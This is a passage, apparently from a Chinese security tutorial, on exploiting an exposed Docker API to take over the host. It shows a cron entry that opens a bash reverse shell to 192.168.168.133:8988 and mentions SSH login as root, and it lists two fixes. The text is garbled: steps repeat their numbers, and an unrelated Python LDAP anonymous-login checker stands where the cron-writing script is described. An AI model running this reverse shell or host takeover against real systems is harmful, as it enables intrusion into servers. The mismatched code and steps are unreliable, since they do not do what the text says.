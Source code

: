 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuHPXo30CJLylpyDB6W4MribIJmic6icdtE9FhbIcOiczXlswGxvR3iaAnIjA/640?wx_fmt=jpeg)

之后就可以用 root 账户直接登录了

ssh root@x.x.x.x 登录

2、在 crontab 里写定时任务，反弹 shell

1、运行一个新容器，并且将该宿主机的根目录挂在到容器的 / mnt 目录下:

```
echo '\* \* \* \* \* /bin/bash -i >& /dev/tcp/192.168.168.133/8988 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

启动之后就会获得该容器宿主机的 shell:

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuodtBK6rpMQTL1hNPkiaticuY7fBSUtjvk1NVdicmrRjJbBv5RibEiaNsOjw/640?wx_fmt=jpeg)

2、在容器内执行命令，将反弹 shell 的脚本写入到 / var/spool/cron/crontabs/root (ubuntu 系统) 或 / var/spool/cron/root（centos 系统）:

```
#! /usr/bin/env python
# \_\*\_  coding:utf-8 \_\*\_
from ldap3 import Connection,Server,ALL
def ldap\_anonymous(ip):
    try:
        server = Server(ip,get\_info=ALL,connect\_timeout=1)
        conn = Connection(server, auto\_bind=True)
        print "\[+\] ldap login for anonymous"
        conn.closed
    except:
        #pass
        print '\[-\] checking for ldap anonymous fail'
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuDmkm9fqIGTibIBNRWImYX70H6DgxyPNLczxcSRT957nicRiaic8uJ8jib2Q/640?wx_fmt=jpeg)

（写入 / etc/crontabs/root 文件也可以）

3、本地监听端口，获取 shell:

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuFZsBT5VTk0fQ0hTuOUicVeFnU462qpLrdQq4MoRTBzSmHUsBicXxjlpw/640?wx_fmt=jpeg)

### 修复方法

1、设置 ACL，只允许信任 ip 连接对应端口

2、开启 TLS，使用生成的证书进行认证

Jenkins 未授权访问漏洞
---------------

### 漏洞简介
